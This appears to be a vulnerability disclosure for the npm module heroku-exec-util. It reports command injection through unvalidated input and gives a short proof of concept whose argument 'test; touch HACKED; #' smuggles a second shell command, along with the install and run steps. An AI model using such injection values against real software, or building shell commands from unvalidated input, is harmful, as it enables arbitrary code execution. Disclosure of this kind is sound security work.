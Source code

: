 # :bug: Description

The `heroku-exec-util` module is vulnerable against `RCE` since a command is crafted using `user inputs` not validated and then executedading to `arbitrary command injection`

# :fire: POC

1. Create the following PoC file:

```js
// poc.js
var heu = require('heroku-exec-util');
heu.ssh({args:{}},'test; touch HACKED; #','','test',{path:'test'})

```
2. Check there aren't files called `HACKED` 
3. Execute the following commands in another terminal:

```bash
npm i heroku-exec-util # Install affected module
node poc.js #  Run the PoC
```
4. Recheck the files: now `HACKED` has been created
